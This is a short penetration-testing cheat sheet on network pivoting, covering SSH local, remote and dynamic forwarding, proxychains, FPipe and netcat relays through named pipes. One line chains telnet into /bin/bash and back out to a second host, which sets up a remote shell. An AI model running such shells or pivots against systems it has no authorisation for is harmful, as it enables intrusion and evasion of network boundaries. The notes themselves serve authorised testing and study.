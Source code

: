 # Pivoting (Port Fun)
###### tags: `Security` `Pivoting`
[TOC]

# Reference
[NETSEC - Dynamic Port Forwarding(SSH)](https://netsec.ws/?p=278)
[HighOn.Coffee - SSH & Meterpreter Pivoting Techique](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/)

# Example
### nc <== telnet /bin/bash telnet ==> nc
```
Machine A:
nc -lk -n -v 7777

Machine B:
telnet A.A.A.A 7777 | /bin/bash | telnet B.B.B.B 7777

Machine C:
nc -lk -n -v 7777
```

### A:9000 <== ssh ==> C:80
```
Machine A:
ssh -i ~/.ssh/B.root.key -L9000:C.C.C.C:80 B.B.B.B
```
or
```
ssh B.B.B.B
<enter>
<enter>
~C
ssh> -L 9000:C.C.C.C:80
```

### local:1080 socks5 <== ssh 10.10.10.75 ==> any
```
ssh -D1080 10.10.10.75
netstat -alnp | grep LIST | grep 1080
vim /etc/proxychains.conf
: [ProxyList]
: # add proxy here ...
: # meanwile
: # defaults set to "tor"
: #socks4         127.0.0.1 9050
: # metasploit
: #socks4         127.0.0.1 1080
: # ssh
: socks5  127.0.0.1 1080
proxychains curl -k https://10.10.10.60
```

## temp
Note: FPipe.exe -l [local port] -r [remote port] -s [local port] [local IP]

```
FPipe.exe -l 80 -r 80 -s 80 192.168.1.7
```

Note: ssh -[L/R] [local port]:[remote ip]:[remote port] [local user]@[local ip]

```
ssh -L 8080:127.0.0.1:80 root@192.168.1.7    # Local Port
ssh -R 8080:127.0.0.1:80 root@192.168.1.7    # Remote Port
```

Note: mknod backpipe p ; nc -l -p [remote port] < backpipe | nc [local IP] [local port] >backpipe 

```
mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.5.5.151 80 >backpipe    # Port Relay
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe    # Proxy (Port 80 to 8080)
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow & 1>backpipe    # Proxy monitor (Port 80 to 8080)
```

Is tunnelling possible? Send commands locally, remotely
```
ssh -D 127.0.0.1:9050 -N [username]@[ip]
proxychains ifconfig
```